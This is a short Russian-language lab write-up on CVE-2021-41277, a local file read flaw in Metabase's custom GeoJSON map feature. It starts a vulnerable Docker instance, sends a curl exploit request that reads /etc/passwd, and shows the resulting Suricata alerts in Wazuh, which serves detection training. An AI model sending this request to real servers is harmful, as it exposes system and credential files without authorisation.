




# CVE-2021-41277

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-41277](https://nvd.nist.gov/vuln/detail/CVE-2021-41277)
* [https://www.opencve.io/cve/CVE-2021-41277](https://www.opencve.io/cve/CVE-2021-41277)

Metabase — это платформа для анализа данных с открытым исходным кодом. В уязвимых версиях была обнаружена проблема безопасности с поддержкой пользовательской карты GeoJSON (admin->settings->maps->custom maps->add a map) и возможным использованием и выполнением локальных файлов (включая переменные среды). Эта проблема исправлена ​​в новой версии обслуживания (0.40.5 и 1.40.5), а также во всех последующих версиях.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:3000 будет доступна стартовая страница Metabase

<figure><figcaption></figcaption></figure>

Заполните следующую информацию произвольной информацией, она не влияет на реализацию уязвимости

<figure><figcaption></figcaption></figure>

Чтобы реализовать уязвимость и прочитаь файл /etc/passwd, выполните следующую команду:

```
curl -v http://ваш-ip:3000/api/geojson?url=file:////etc/passwd
```

<figure><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><figcaption></figcaption></figure>
